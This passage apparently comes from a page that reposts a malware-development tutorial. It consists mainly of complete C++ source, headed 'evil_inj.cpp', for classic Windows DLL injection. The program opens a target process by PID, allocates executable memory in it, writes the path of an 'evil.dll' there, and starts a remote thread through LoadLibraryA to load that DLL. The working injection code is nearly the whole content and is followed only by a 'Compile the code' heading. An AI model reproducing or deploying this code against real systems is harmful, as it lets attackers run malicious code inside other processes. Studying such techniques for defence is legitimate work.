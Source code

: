 **teh skript kat is summoned...**  

## Ok, on to the main C++ code...  

  - example-2.cpp
```cpp  
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```  

## Compile the code...  
